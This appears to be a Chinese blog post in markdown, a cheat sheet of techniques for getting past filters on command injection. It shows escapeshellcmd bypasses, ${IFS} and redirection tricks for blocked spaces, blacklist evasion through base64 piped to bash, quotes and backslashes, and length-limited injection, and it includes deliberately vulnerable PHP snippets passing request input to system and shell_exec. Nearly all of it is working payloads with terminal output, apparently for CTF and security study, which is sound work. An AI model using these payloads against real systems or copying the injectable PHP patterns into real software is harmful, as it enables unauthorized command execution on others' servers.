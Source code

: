 ```yaml
---
title: 命令执行的一些绕过技巧
date: 2017-08-15 19:05:33
tags: [php,代码审计,代码执行]
categories: Web Security
copyright: true
---
```

# 绕过escapeshellcmd
## 法一：win下执行bat
```php
<?php
$command = 'dir '.$_POST['dir'];
$escaped_command = escapeshellcmd($command);
var_dump($escaped_command);
file_put_contents('out.bat',$escaped_command);
system('out.bat');
?>
```
执行.bat文件的时候，利用%1a，可以绕过过滤执行命令。
payload:
```
dir=../ %1a whoami
```
## 法二：宽字节注入
php5.2.5及之前可以通过输入多字节来绕过。现在几乎见不到了。
```
escapeshellcmd("echo ".chr(0xc0).";id");
```
之后该语句会变成
```
echo 繺;id
```
从而实现 id 命令的注入。

# 空格过滤
## 法一： ${IFS}
payload1:
```
ubuntu@VM-207-93-ubuntu:~$ cat flag
nice day
ubuntu@VM-207-93-ubuntu:~$ cat${IFS}flag
nice day
```
payload2:
```
ubuntu@VM-207-93-ubuntu:~$ cat${IFS}$9flag
nice day
```
payload3:
```
ubuntu@VM-207-93-ubuntu:~$ cat$IFS$9flag
nice day

```
## 法二： 重定向符<>
payload1：
```
ubuntu@VM-207-93-ubuntu:~$ cat<>flag
nice day
```
payload2：
```
ubuntu@VM-207-93-ubuntu:~$ cat<flag
nice day
```

# 黑名单绕过
## 法一： 拼接
```
ubuntu@VM-207-93-ubuntu:~$ a=c;b=at;c=flag;$a$b $c
nice day
```
## 法二： 利用已存在的资源
从已有的文件或者环境变量中获得相应的字符。

## 法三： base64编码
payload1:
```
ubuntu@VM-207-93-ubuntu:~$ `echo "Y2F0IGZsYWc="|base64 -d`
nice day
```
payload2:
```
ubuntu@VM-207-93-ubuntu:~$ echo "Y2F0IGZsYWc="|base64 -d|bash
nice day
```
## 法四： 单引号、双引号
payload1:
```
ubuntu@VM-207-93-ubuntu:~$ c""at flag
nice day
```
payload2:
```
ubuntu@VM-207-93-ubuntu:~$ c""at fl""ag
nice day
```
payload3:
```
ubuntu@VM-207-93-ubuntu:~$ c""at fl''ag
nice day
```
## 法五：反斜线 \
payload:
```
ubuntu@VM-207-93-ubuntu:~$ c\at fl\ag
nice day
```

# 无回显

# 长度限制
```php
<?php
if(strlen($_GET[test])<8){
echo shell_exec($_GET[test]);
}
?>
```
## 文件构造
payload1:
```
a>wget
```
payload2:
```
1>wget
```
payload3:
```
>wget
```
将会创建一个名字为wget的空文件。payload1会报错，payload2不会报错。.





# LINUX下一些已有字符
+ ${PS2} 对应字符 '>'
+ ${PS4} 对应字符 '+'
+ ${IFS} 对应 内部字段分隔符
+ ${9} 对应 空字符串

# 工具
+ [shelling
](https://github.com/ewilded/shelling)

# Refference
+ [PHP绕过open_basedir列目录的研究](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)
+ [eval长度限制绕过 && PHP5.6新特性](https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html)
+ [关于lnmp目录禁止执行的绕过与正确方法](https://www.leavesongs.com/PENETRATION/nginx-deny-exec-php-file.html)
+ [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
+ [php webshell分析和绕过waf技巧](http://bobao.360.cn/learning/detail/3271.html)
+ [【技术分享】命令执行和绕过的一些小技巧](http://bobao.360.cn/learning/detail/3192.html)
+ [浅谈CTF中命令执行与绕过的小技巧](http://www.freebuf.com/articles/web/137923.html)
+ [Mathias:命令执行的bypass技巧](http://www.math1as.com/index.php/archives/484)

